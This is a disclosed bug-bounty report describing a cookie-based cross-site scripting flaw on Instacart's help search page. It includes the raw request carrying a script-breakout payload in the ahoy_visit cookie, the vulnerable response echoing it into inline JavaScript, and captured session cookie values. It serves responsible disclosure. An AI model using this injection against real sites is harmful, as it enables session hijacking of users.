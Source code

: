 # Cookie-Based Injection

## Report Details
- **Report ID**: 105419
- **URL**: https://hackerone.com/reports/105419
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-12-15T16:38:43.644Z
- **Disclosed**: 2016-09-26T20:12:59.846Z

## Reporter
- **Username**: hussain_0x3c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
**Hi** Security Team instacart

I'm Found Vulnerability **Cookie-Based Injection** It's may be possible to steal or manipulate session and cookies if attacker can injection **XSS** .  

details
---
in path **/help/** contain header in cookie  paramter **ahoy_visitor** and  **ahoy_visit** it's allow injection because re request allow **Content-Type: text/html**  without filtering 

**request** 
~~~
GET /help/search?utf8=%E2%9C%93&q=1234 HTTP/1.1
Cookie: ahoy_visitor=bea4a4cc-01ca-4076-b156-1d11356afe0a; ahoy_track=true; ic_uniq_id=BAhJIhIxNDQ5OTg5Mjk5ODc4BjoGRUY%3D--e26e9e540d5cb31efed655eef8adf6e07768f6a3; visit_id=BAhpBC6ZzAg%3D--9db70ee03573d7c977ac56adf67713f21c8cc599; _session_id=c726cf2c4764c58c8e9c47da08806373; build_sha=cbe364874847ad610e8e208ebdfcd044107728d7; ahoy_visit=c5ff00ff-8242-4a44-92a2-8d178e20c17f</script ><script>alert(8)</script>
Accept-Language: en-US
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: https://www.instacart.com/help
Host: www.instacart.com
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; Tablet PC 2.0)
~~~
**response**
~~~
HTTP/1.1 200 OK
Cache-Control: max-age=0, private, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Sun, 13 Dec 2015 07:29:01 GMT
ETag: W/"91886df9422f684d07ccc7e7b0e5e7ed"
Server: nginx
Status: 200 OK
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Jobs: jobs@instacart.com
X-Request-Id: 4e80ccc3-36de-4a6b-8731-21fc5d7d6155
X-Runtime: 0.048853
X-XSS-Protection: 1; mode=block
Content-Length: 20663
Connection: keep-alive
Set-Cookie: build_sha=cbe364874847ad610e8e208ebdfcd044107728d7;Path=/;
Set-Cookie: ahoy_visit=a97bdcba-cbe2-56b2-89fc-efe87957b138; path=/; expires=Sun, 13 Dec 2015 11:29:01 -0000
 

Source Page 

!function(){var analytics=window.analytics=window.analytics||[];if(!analytics.initialize)if(analytics.invoked)window.console&&console.error&&console.error("Segment snippet included twice.");else{analytics.invoked=!0;analytics.methods=["trackSubmit","trackClick","trackLink","trackForm","pageview","identify","group","track","ready","alias","page","once","off","on"];analytics.factory=function(t){return function(){var e=Array.prototype.slice.call(arguments);e.unshift(t);analytics.push(e);return analytics}};for(var t=0;t<analytics.methods.length;t++){var e=analytics.methods[t];analytics[e]=analytics.factory(e)}analytics.load=function(t){var e=document.createElement("script");e.type="text/javascript";e.async=!0;e.src=("https:"===document.location.protocol?"https://":"http://")+"cdn.segment.com/analytics.js/v1/"+t+"/analytics.min.js";var n=document.getElementsByTagName("script")[0];n.parentNode.insertBefore(e,n)};analytics.SNIPPET_VERSION="3.0.1";
  analytics.load("9uIMc3rUXySY5rCFhBfRHc6zKHFNrkFv");
var pageViewProps = {"referrer_domain":"https://www.instacart.com/help","ahoy_visitor_token":"bea4a4cc-01ca-4076-b156-1d11356afe0a","ahoy_visit_token":"c5ff00ff-8242-4a44-92a2-8d178e20c17f</script ><script>alert(8)</script>"};
window['pageViewProps'] = pageViewProps;
window['user_channel_props'] = {};
window['utm_params'] = {}
pageViewProps.name = window.location.pathname;
pageViewProps.login_state = "loggedout";
analytics.page(pageViewProps);
 analytics.identify({"referrer_domain":"https://www.instacart.com/help","science__growth_late_reg_web":"control","platform":"web","ahoy_visitor_token":"bea4a4cc-01ca-4076-b156-1d11356afe0a","ahoy_visit_token":"c5ff00ff-8242-4a44-92a2-8d178e20c17f</script ><script>alert(8)</script>"});
~~~

**Test** :- FF - IE



**POC IMG  :-** http://i.imgur.com/MutfPsL.jpg **&** http://i.imgur.com/kCikyEq.jpg

**Regards**
@Hussain

## Attachments
No attachments
